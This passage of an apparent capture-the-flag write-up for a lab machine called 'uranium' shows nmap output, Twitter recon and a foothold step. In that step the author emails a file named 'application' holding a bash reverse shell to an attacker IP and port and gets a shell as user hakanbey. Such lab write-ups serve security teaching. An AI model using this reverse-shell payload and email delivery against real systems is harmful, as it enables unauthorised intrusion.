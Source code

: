 ```bash
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
Service Info: Host:  uranium; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Aug 21 13:43:46 2021 -- 1 IP address (1 host up) scanned in 30.56 seconds
```
So, we have an `smtp` server runnin, a `web` server and a `ssh` service running.

But the creator give us a twitter account, so let's recon it too!

Reading the twitter, we get some information...
![recon](recon.png)

1. We have now a domain and an email.
2. We know that the user opens the mail's content in his terminal and expects a file with the name "application".

## Foothold - Users
What if we send an email with an "application" with a reverse shell??

You can get the reverse shell from this site [revshells](https://www.revshells.com/)

```bash
╰─ lanfran@parrot ❯ cat application                                                                                                ─╯
#!/bin/bash
bash -c "bash -i >& /dev/tcp/10.9.1.53/1337 0>&1"
```
Let's send the email now!

```bash
╰─ lanfran@parrot ❯ sendEmail -t hakanbey@uranium.thm -f lanfran@mail.com -s 10.10.105.19 -u "Im an exploit :)" -m "Im gonna hack you" -a application -o tls=no
Aug 21 12:50:21 parrot sendEmail[1992588]: Email was sent successfully!
```
And after some seconds we get a reverse shell with the user hakanbey!!
